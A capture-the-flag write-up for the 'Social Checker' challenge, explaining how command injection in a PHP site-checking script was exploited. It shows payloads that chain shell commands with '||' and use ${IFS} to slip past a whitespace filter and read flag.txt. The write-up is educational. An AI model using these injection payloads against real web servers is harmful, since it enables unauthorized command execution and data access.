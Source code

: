 # Social Checker

## Problem Text

_Social Checker - check if your favourite social media site is online!_

```text
http://46.101.107.117:2103
```

___
Social Checker is a challenge that requires participants to exploit a PHP web application running on a server.

Upon first loading the link, we are taken to a web page with a drop down menu to select a given site to check.

Let's look at the HTML:

```html
<body>
        <h1>Social Checker</h1>
        Check if your favourite social media site is online!<br/><br/>
        <select id="url">
          <option value="twitter.com">twitter.com</option>
          <option value="facebook.com">facebook.com</option>
          <option value="linkedin.com">linkedin.com</option>
          <option value="instagram.com">instagram.com</option>
          <option value="pinterest.com">pinterest.com</option>
          <option value="tumblr.com">tumblr.com</option>
          <option value="wechat.com">wechat.com</option>
          <option value="whatsapp.com">whatsapp.com</option>
        </select><br/><br/>
        <input id="submit" type="submit" value="Check it!" onclick="javascript:doCheck();"/><br/><br/>
        <div class="box" id="result"></div>
    </body>
```

From this, we can see that when the select button is clicked, it calls a JavaScript `doCheck()` function embedded in the HTML. This function is defined earlier in the source:

```javascript
function doCheck() {
    $.post("check.php", {"url": $("#url").val()}, function(data) {
    $("#result").text(data);
    });
}
```

Turns out this function is just a stub that sends a POST request to a PHP program that actually does the heavy lifting. This function also sends the selected url inside the POST data.

One of the many techniques that a hacker can use when exploiting a PHP script is command injection. PHP scripts often call system functions and pipe their input back for processing before sending it back to the user. These system functions are called using the `system()` function much like in C. This function accepts shell syntax, which means if the input is not sanitized before being passed to `system`, we can inject our commands using shell syntax to chain the commands together.

So how do we send these commands? Through the url field in the POST data. We can do this by tampering with the browser dev tools (I use Firefox). When we look at the request payload, we see this:

`url=twitter.com`

The JavaScipt function directly sends the url to be checked as a raw string. This means we can manipulate the string being sent and see what happens. Let's try sending something invalid. The script should blindly substitute it in and whatever shell command it runs will throw back an error, then we can see what the PHP script is using to check the sites.

```text
url=ls
```

So here instead of sending a URL, we send a shell command. We get this response:

```text
nc: bad address 'ls'
```

Aha! Turns out this PHP script uses netcat to check the site availability. Since we know that `system()` accepts valid shell syntax, let's try to chain commands together. We send this:

```text
url=; ls
```

Here we assume that the string passed to netcat becomes `nc; ls`.
Since `nc` fails due to invalid input, `ls` gets executed instead and its output gets sent back to us.

We get this response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

```text
:(
```

Alright, it looks like the script is filtering out certain characters, so we need to find a workaround. Since `nc` fails, instead of using unconditional chaining, we can use the Bash OR operator. This is used to chain commands together, and causes the second command to be executed only if the first command fails. For example:

```text
$ rm thisfiledoesnotexist.txt || echo "Hi!"

rm: cannot remove 'thisfiledoesnotexist.txt': No such file or directory
Hi!

$ touch thisfilenowexists.txt || echo "Hi!"
# no output because the first command succeeded
```

So, the string we send is now this:

```text
url=instagra || ls
```

This should resolve to `nc instagra || ls` as the string passed to `system()`, so that when the first command fails, `ls` gets executed.

And this was the response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

```text
D:<
```

Alright, so it looks like either whitespace or the pipe character is also banned. Let's try it without whitespace and see what happens:

We send:

```text
url=instagra||ls
```

And we get this response:

```text
ls: 80: no such file or directory
```

Nice! Pipe characters are accepted. Also it turns out the PHP script adds the port number after the input (port 80), so `ls` took that as one of its arguments. This means we have to pass `ls` the directory as an explicit argument.

But now we have a problem. Whitespace is the main separator for command line arguments, and without it we cannot send the correct commands.

This is where shell syntax comes in handy once again. Bash has an inbuilt variable called IFS, which is used internally by the shell to split a raw input string into commands and arguments. This can be invoked by the user like any other variable. By default, this variable is a whitespace character.

So, this means this sort of thing can work:

```text
$ echo${IFS}hello

hello
```

This means that we can send a string that doesn't contain any whitespace and thus won't get rejected by the script, but when the command gets passed to Bash via `system()`, it gets split correctly. Let's give it a try:

```text
url=insta||ls${IFS}$PWD
```

Breakdown:

- insta - Send a string that causes `nc` to fail
- `||` - Since `nc` fails, chain the command we want to execute using the condtional operator
- `ls` - the `ls` command
- `${IFS}` - the IFS variable to allow Bash to separate the arguments correctly
- `$PWD` - The present working directory

We get this response:

```text
ls: 80: No such file or directory
/htdocs:
bg.jpg
check.php
flag.txt
index.php
```

Boom! We now know the contents of the directory, and the file is staring at us right in the face. All we have to do now is send the correct command:

```text
url=insta||cat${IFS}flag.txt
```

Response (with error messages removed):

```text
he2021{1ts_fun_t0_1nj3kt_k0mmand5}
```

___
*Flag:* `he2021{1ts_fun_t0_1nj3kt_k0mmand5}`
